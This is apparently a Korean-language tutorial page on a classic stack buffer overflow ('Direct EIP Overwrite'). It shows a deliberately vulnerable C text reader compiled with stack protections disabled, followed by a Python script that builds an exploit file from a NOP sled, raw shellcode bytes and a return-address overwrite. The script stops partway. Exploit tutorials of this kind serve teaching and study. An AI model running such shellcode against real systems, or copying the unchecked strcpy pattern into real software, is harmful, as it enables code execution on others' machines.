 
### # Direct EIP Overwrite

Retern 주소를 쉘코드 주소로 설정하면 된다.

#### 1. Vulnerable Code

취약한 코드는 아래와 같다.

```c
#pragma warning(disable:4996)
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char* argv[]) {

	char printbuf[500] = { 0, };
	char readbuf[2000] = { 0, };
	printf("[+] Text Reader\n");
	if (argc != 2) {
		printf("	Usage : reader.exe filename\n");
		exit(1);
	}
	FILE *f = fopen(argv[1], "r");
	fgets(readbuf, 2000, f);
	strcpy(printbuf, readbuf);
	printf("File Contents : %s\n", printbuf);
	return 0;
}
```

보안 옵션
- 보안 검사 : 보안 검사 사용 안함(/GS-)
- DEP(데이터 실행 방지) : 아니요(/NXCOMPAT:NO)
- 임의 기준 주소 : 아니요(/DYNAMICBASE:NO)
- 이미지에 안전한 예외 처리기 포함 : 아니요(/SAFESEH:NO)

#### 2. Exploit Code

이를 exploit하는 txt를 생성하는 python 코드는 아래와 같다.

```python
# reader.exe exploit
import struct

print("[+] Create text file...")
NOP = b"\x90" * 100

SHELLCODE = (
        b"\xe8\xff\xff\xff\xff\xc2\x5e\x33\xc9\xb1\x2a\xbf\xce\xe7\xd6\xa7"
        b"\x31\x7e\x13\x83\xc6\x04\xe2\xf8\x45\x0b\x3d\x97\x8c\x4a\xb6\xa4"
        b"\x16\x6c\x25\x94\x0e\xd4\x29\x0b\xcd\x1f\x52\x67\xbb\x1e\x5f\xda"
        b"\xde\x86\xef\xda\xde\x92\x33\xa8\x79\xb3\x87\x59\x45\x9a\xce\x2c"
        b"\xb9\xfb\xd5\x54\x45\xdb\x40\xa4\x35\x6c\x11\x64\xaa\x46\xe6\xa7"
        b"\xce\xe7\x5d\xe7\xc2\x6c\x96\xb3\x45\xff\x5d\xbc\x45\xbc\xc6\x2c"
        b"\xb5\xdb\xd5\x5c\x45\x98\xae\xa4\x35\x6e\xab\xbf\x45\x90\xf6\xa4"
        b"\x3d\x6c\x99\x83\xcd\x2c\xe5\x75\xae\xd4\x29\xc1\x71\x54\xd4\x4f"
        b"\x56\x18\x29\x58\x47\xa2\xf6\xc6\xfd\x18\xb0\x18\xb7\xe3\x3e\x2e"
        b"\x31\x18\x29\x2e\x8b\xc3\xe5\x67\x08\xa2\xda\xc4\x08\xa2\xdb\xc6"
        b"\x08\xa2\xd8\xcb\x08\xa2\xd9\xc4\x47\xa2\xc6\x94\x0e\xa7\x86\x2a"
        b"\x8b\xeb\x86\x58\x9b\xc7\xe5\x67\x9e\x18\x83\x83"
)

print("Shellcode Length :", len(SHELLCODE))
DUMMY = b"A" * (500 - len(NOP + SHELLCODE)) + b"\xCC"*4 + b"A"*4
BUF = struct.pack('<L', 0x19FCFC)
```